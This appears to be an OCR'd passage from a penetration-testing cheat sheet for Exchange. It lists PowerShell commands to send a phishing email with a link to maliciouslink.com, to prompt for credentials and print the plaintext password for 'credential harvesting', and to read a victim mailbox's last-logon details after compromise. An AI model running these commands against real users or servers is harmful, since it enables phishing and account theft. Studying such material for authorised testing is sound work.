 **Example:**

Determine the version of mail.snowcapcyber.com to check for outdated software.

---

**Script/Command:**

```powershell
Send-MailMessage -From attacker@snowcapcyber.com -To victim@snowcapcyber.com -Subject "Important: Urgent Action Required" -Body "Click here to reset your password: http://maliciouslink.com" -SmtpServer mail.contoso.com
```

**Description:**

Sends a phishing email to a user on the Exchange server to trick them into revealing sensitive information.

**Example:**

Test phishing effectiveness by sending a mock email to victim@snowcapcyber.com.

---

**Script/Command:**

```powershell
$cred = Get-Credential
$cred.GetNetworkCredential().Password
```

**Description:**

Captures credentials via a prompt and extracts the password for credential harvesting.

**Example:**

Attempt to extract credentials from a compromised user session.

---

**Script/Command:**

```powershell
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://mail.contoso.com/PowerShell/ -Authentication Kerberos
Import-PSSession $Session
Get-Mailbox -User victim@snowcapcyber.com | Get-MailboxStatistics | Format-List LastLoggedOnUserAccount, LastLogonTime
```

**Description:**

Establishes a remote session to the Exchange server and retrieves mailbox access details for the specified user.

**Example:**

Check the last login details for victim@snowcapcyber.com after credential compromise.

---
